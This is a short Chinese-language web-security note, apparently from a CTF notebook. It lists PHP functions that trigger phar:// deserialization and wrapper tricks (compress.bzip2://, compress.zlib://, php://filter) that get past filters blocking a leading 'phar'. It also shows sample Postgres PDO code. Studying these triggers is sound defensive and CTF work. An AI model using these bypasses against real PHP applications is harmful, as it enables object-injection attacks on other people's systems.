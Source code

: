<img src="图片\20210203104957480.png" alt="20210203104957480" style="zoom:80%;" />

可能会影响更多，里面有详细说明https://blog.zsxsoft.com/post/38

```
//exif
exif_thumbnail
exif_imagetype
    
//gd
imageloadfont
imagecreatefrom***系列函数
    
//hash
    
hash_hmac_file
hash_file
hash_update_file
md5_file
sha1_file
    
// file/url
get_meta_tags
get_headers
    
//standard 
getimagesize
getimagesizefromstring
    
// zip   
$zip = new ZipArchive();
$res = $zip->open('c.zip');
$zip->extractTo('phar://test.phar/test');
// Bzip / Gzip 当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://绕过
$z = 'compress.bzip2://phar:///home/sx/test.phar/test.txt';
$z = 'compress.zlib://phar:///home/sx/test.phar/test.txt';

//配合其他协议：(SUCTF)
//https://www.xctf.org.cn/library/details/17e9b70557d94b168c3e5d1e7d4ce78f475de26d/
//当环境限制了phar不能出现在前面的字符里，还可以配合其他协议进行利用。
//php://filter/read=convert.base64-encode/resource=phar://phar.phar

//Postgres pgsqlCopyToFile和pg_trace同样也是能使用的，需要开启phar的写功能。
<?php
	$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
	@$pdo->pgsqlCopyFromFile('aa', 'phar://phar.phar/aa');
?>
    
// Mysql
//LOAD DATA LOCAL INFILE也会触发这个php_stream_open_wrapper
```